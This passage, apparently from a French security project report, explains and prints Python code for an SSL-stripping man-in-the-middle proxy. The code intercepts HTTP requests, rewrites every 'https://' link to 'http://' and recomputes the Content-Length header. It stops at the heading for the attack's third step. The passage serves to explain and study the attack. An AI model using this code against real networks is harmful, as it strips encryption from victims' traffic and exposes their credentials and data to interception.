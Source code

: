 Voici la fonction implémentant la réception d'une requête HTTP :

\begin{verbatim}
def __recv(self, csock):
        fw_sock = self.__csockets[csock]
        data = csock.recv(BUFFER_SIZE)
        if len(data) == 0:
            self.__close_conn(csock)
            self.__close_conn(fw_sock)
        else:
            print(data)

            if fw_sock is None:
                m = re.search(b'(GET|POST) (\S+) HTTP/\d.\d', data)
                if m is not None and m.group(2) in HTTPS_URL:
                    self.__new_https_conn(csock)
                else:
                    self.__new_http_conn(csock)
                fw_sock = self.__csockets[csock]
            data = self.__replace_https_to_http(data)
            data = self.__replace_content_length(data)
            fw_sock.send(data)
\end{verbatim}

A la fin, on transforme tous les liens https trouvé en http et on recalcule la taille de la requête (entête Content-Length).

\subparagraph{Transformation des liens \\}

La transformation se fait à l'aide d'une expression régulière qui remplace  par  dans les données HTTP.

\begin{verbatim}
def __replace_https_to_http(self, data):
        return re.sub(b'https://', b'http://', data)
\end{verbatim}

\subparagraph{Recalcule de l'entête Content-Length \\}

Il faut ensuite recalculer l'entête Content-Length, en se basant sur le début des données HTTP situées après la séquence "{\textbackslash}r{\textbackslash}n{\textbackslash}r{\textbackslash}n" :

\begin{verbatim}
def __replace_content_length(self, data):
    try:
        idx = data.index(b"\r\n\r\n")
        length = len(data) - idx - 4
        return re.sub(b'Content-Length: (\d+)',
                      b'Content-Length: %d' % length, data, 1)
    except:
        return data
\end{verbatim}

\subsubsection{Étape 3 : pendant l'attaque}

